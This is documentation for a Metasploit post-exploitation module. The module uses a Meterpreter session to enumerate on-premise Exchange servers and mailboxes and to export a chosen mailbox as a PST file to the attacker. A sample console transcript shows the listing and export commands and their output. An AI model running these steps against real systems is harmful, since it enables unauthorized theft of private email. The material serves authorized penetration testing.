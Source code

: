 ## Vulnerable Application

  This module will gather information from an on-premise Exchange Server running on the target machine.

  Two actions are supported:

  `LIST` (default action): List basic information about all Exchange servers and mailboxes hosted on the target.

  `EXPORT`: Export and download a chosen mailbox in the form of a .PST file, with support for an optional filter keyword.

  It requires that the effective Meterpreter session user be assigned to the "Organization Management" role group.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session on a Windows target running an Exchange Server
  3. Do: `use post/windows/gather/exchange`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

### FILTER

  Filter to use when exporting a mailbox.

  See [Microsoft documentation](https://docs.microsoft.com/en-us/exchange/filterable-properties-for-the-contentfilter-parameter)
  for valid values.

  Unused for LIST action, optional for EXPORT action.

### MAILBOX

  Mailbox to export. Can be a mailbox's email address or display name.

  Unused for LIST action, required for EXPORT action.

### DownloadSizeThreshold

  The file size of export results after which a prompt will appear to confirm the download, in MB.

  Option takes a float number. Default value is 50.0.

### SkipLargeDownloads

  If set to `true`, automatically skip downloading export results that are larger than `DownloadSizeThreshold` (don't show prompt).

  Set to `false` by default.

## Extracted data

### LIST action
  For every server:

  - Server name
  - Server version
  - Server role
  - For every mailbox in server:
    - Mailbox display name
    - Mailbox email addresses
    - Mailbox creation date
    - Mailbox address list membership
    - For every folder in mailbox:
      - Folder Path
      - Items in folder
      - Folder size
      - Newest item received date

### EXPORT action
  .PST file with the chosen mailbox's mail items

## Scenarios

### Windows Server 2012 R2 with On-Premise Exchange Server 2010

```
msf6 exploit(multi/handler) > use post/windows/gather/exchange
msf6 post(windows/gather/exchange) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/exchange) > run -a LIST

[+] Exchange Server is present on target machine
[+] PowerShell is present on target machine
[+] Listing reachable servers and mailboxes:
----------
Server:
- Name: WIN-49S7K9MJUAF
- Version: Version 14.3 (Build 123.4)
- Role: Mailbox, ClientAccess, HubTransport
-----
Mailboxes:
---
- Display Name: Administrator
- Email Addresses: SMTP:Administrator@example.corp
- Creation date: 12/02/2020 01:01:43
- Address list membership: \Mailboxes(VLV) \All Mailboxes(VLV) \All Recipients(VLV) \Default Global Address List \All Users
- (All folders are empty)
---

[...]

[*] Post module execution completed
msf6 post(windows/gather/exchange) > set MAILBOX "Administrator"
MAILBOX => Administrator
msf6 post(windows/gather/exchange) > run -a EXPORT

[+] Exchange Server is present on target machine
[+] PowerShell is present on target machine
[+] Exporting mailbox 'Administrator':
Exporting mailbox...
. Queued
. Queued
. Queued
. InProgress
. Completed
Exporting done
[*] Resulting export file size: 0.26 MB
[+] PST saved in: /home/user/.msf4/loot/20210309120402_default_192.168.1.70_PST_427036.pst
[*] Post module execution completed
msf6 post(windows/gather/exchange) >
```
